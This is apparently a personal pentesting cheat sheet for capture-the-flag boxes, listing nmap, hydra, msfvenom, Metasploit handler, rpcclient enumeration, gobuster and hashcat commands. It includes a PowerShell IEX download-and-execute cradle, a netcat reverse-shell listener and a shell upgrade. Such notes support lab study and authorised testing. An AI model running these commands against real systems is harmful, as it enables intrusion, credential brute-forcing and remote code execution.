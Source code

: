# Random notes that I have not filed yet

## Standard nmap scan
`sudo nmap -sC -sV -oA nmap/(box name) (IP)`

## Screenshots
### Howto
In Kali, `CTRL+SHIFT+PRINT SCREEN` brings up a target window, you can then use this to draw a rectangle around an area and take a picture. This picture is saved to your clipboard, which you can paste inside or outside of your VM
### Screenshot access when obtained
Windows: `hostname; whoami; ipconfig`

Linux: `hostname; whoami; ip a`

## Setup a simple web server
`python -m SimpleHTTPServer`

## Encoding file to remove bad characters, and copy to clipboard
`cat (filename) | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard`

Change `UTF-16LE` to `UTF-8` for Unix

## HTTP login pages
`hydra -C /usr/share/seclists/Passwords/Default-Credentials/(chosen file) -s (port) (IP) http-get (subdirectory)`

## MSFVenom
### List payloads
`msfvenom -l payloads`
### List formats
`msfvenom -l formats`
### Create payload
`msfvenom -p (payload) LHOST=(IP) LPORT=(port) -f (format) -o (output filename)`

## Setup handler
In Metasploit: 

`use exploit/multi/handler`

`set payload (selected payload)`

`set LHOST tun0`

`set LPORT (port)`

`exploit -j` to run in background

## Check sessions in Metasploit
`sessions -i 1`

## RPC 
### Access
`rpcclient -U '' (IP)`
### `enumdomusers`
Lists all users
### `queryuser 0x(user number)`
Lists info about user
### `enumdomgroups`
Lists all groups
### `querygroup 0x(group number)`
Lists info about group
### `querygroupmem 0x(group number)`
Lists group members
### More details
In RPC client, run `querdispinfo`



## Wordlists
### How to make nice wordlists
`hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule (original password list you have) > password.lst`

## Decompilers
### DNSpy
Recommended for .NET

## Linux shell
### `!!`
Reruns previous command
### `$_`
Pulls out last argument from previous command
### `!$`
Pulls out last word from previous command (not quite the same as `$_`)

## Windows shell
### `allinfo`
Windows version of `ls -lah`
### `type`, `gc`
Windows version of `cat`
### `gci`
Shorthand for `get-childitem`, `gci -Hidden` is like `ls -a`
### Running files
Run files with `.\(filename)`
### Download from Windows shell
`IEX(New-Object Net.WebClient).downloadString('http://(IP/HOSTNAME)')`

## OS typing by TTL
Windows has a default of a 128 TTL, Unix has 64?

## Finding web server subdirectories
`gobuster dir -u '(IP)' -x (format) -w /usr/share/wordlists/dirbuster/(chosen wordlist) -o (output file)`

## Reverse shells
### Where can they be found?
On Kali, find most in `/opt/nishang/Shells/`, `/usr/share/laudanum/php/`

Plenty at [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Netcat is fairly reliable, bash also works well
### Setup a listener for a reverse shell
`nc -lvnp 8081`

### Convert into a real shell
`python -c 'import pty;pty.spawn("/bin/bash")'`

## Searchsploit
Path for Kali is `/usr/share/exploitdb/exploits/`

## evil-winrm
### `upload`
Uploads a file from your current working directory

## DNS Servers
Typically running kerberos (:88), Windows RPC (:135), and ldap (:389), possibilty SMB (:445)
